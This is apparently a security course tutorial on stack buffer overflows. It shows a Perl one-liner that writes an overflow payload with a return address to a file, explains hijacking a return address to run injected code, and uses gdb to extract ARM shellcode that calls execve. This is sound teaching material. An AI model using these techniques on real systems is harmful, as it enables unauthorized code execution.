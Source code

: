 we see `helloworld` echoed in our shell.

**UNIX power tip**: Any program that prints to `STDOUT` can be redirected to print to a file using the `>` shell operator.  For example:

```
$ perl -e 'print "helloworld\n"' > hello_file
```

creates a file called `hello_file` containing `helloworld\n`.

Let's now print all those unprintable characters and save them to a file called `input`.

```
$ perl -e 'print "abcdefghijklmnop\xd8\xf5\xff\xbf\x34\x84\x04\x08"' > input
```

Note above that if we want to "print" the unprintable byte with byte value `0x84`, we just type `\x84` in Perl.

<hr style="border-color: purple;" />

## Where do our bytes come from?

You probably already know that at least a part of the bytes we use to overwrite a return address should contain a new return address.  But what about the rest of the bytes?  Well, think about this for a moment: when we overwrite a return address, what address do we put there?  If all you're trying to do is to make a program jump to a different function that already exists, then you can just put in that function's address.  But what if you want to make the program do something _totally new_?  In other words, what if you want to hijack the program to run code that _you wrote_?

First, we start by writing the program that we want to run.  We then obtain the machine code for our program.  During our attack, we will load this machine code into our attack buffer, overwrite a return address, and jump to code stored in our buffer.  This is why we have to disable the NX bit.  We're going to run code in a region that normally does not run code!

Note that this tutorial just tells you how to extract the machine code for your attack code.  It does not tell you which bytes in the attack code should contain the new return address, or where to put that new return address.  You will have to figure out those parts on your own!

<hr class="style12" />

### Using `gdb` to find a subroutine

How can we obtain the machine code for _one subroutine_?  We can do this using `gdb`.

First, compile your program.  Then run `gdb` as follows:

```
$ gdb shellcode.o
(gdb) disas /r main
Dump of assembler code for function main:
   0x00000000 <+0>:	02 20 22 e0	eor	r2, r2, r2
   0x00000004 <+4>:	28 10 8f e2	add	r1, pc, #40	; 0x28
   0x00000008 <+8>:	02 48 2d e9	push	{r1, r11, lr}
   0x0000000c <+12>:	01 48 bd e8	pop	{r0, r11, lr}
   0x00000010 <+16>:	07 20 c1 e5	strb	r2, [r1, #7]
   0x00000014 <+20>:	02 48 2d e9	push	{r1, r11, lr}
   0x00000018 <+24>:	04 b0 8d e2	add	r11, sp, #4
   0x0000001c <+28>:	0b 70 a0 e3	mov	r7, #11
   0x00000020 <+32>:	08 d0 4d e2	sub	sp, sp, #8
   0x00000024 <+36>:	0c 10 0b e5	str	r1, [r11, #-12]
   0x00000028 <+40>:	08 20 0b e5	str	r2, [r11, #-8]
   0x0000002c <+44>:	0c 10 4b e2	sub	r1, r11, #12
   0x00000030 <+48>:	ff ff ff ef	svc	0x00ffffff
End of assembler dump.
```
